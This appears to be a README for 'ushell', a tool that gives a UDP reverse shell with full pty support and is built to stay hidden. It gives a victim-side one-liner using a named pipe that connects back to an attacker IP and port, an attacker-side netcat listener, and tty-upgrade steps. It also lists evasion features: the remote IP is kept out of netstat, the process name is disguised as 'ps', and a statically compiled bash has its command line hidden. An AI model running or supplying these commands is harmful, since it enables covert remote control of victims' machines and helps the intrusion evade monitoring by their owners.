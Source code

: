 # motivation
want to implenment a udp reverse shell with full shell property(support pty/tab/arrow..) and high degree of concealment.

# compile
make

# usage
## victim 
mkfifo fifo;./ushell -u 192.168.74.187 4443 < fifo | ./ushell -p bash -i >& fifo

## attacker
nc -ulvp 4443

# support tab/arrow/ctrl-c
ctrl-z //return to host
stty raw -echo
fg //return to shell
reset
// make beautiful
export SHELL=**
export TERM=**
stty rows ** columns ** 

# key property
+ udp socket without connect(thus hide remote ip from netstat)
+ cmd line hide as "ps"(thus hide remote ip from cmd line)
+ use forkpty() to provide a pty terminal

# other
we can also compile a bash staticly and hide its cmd line 
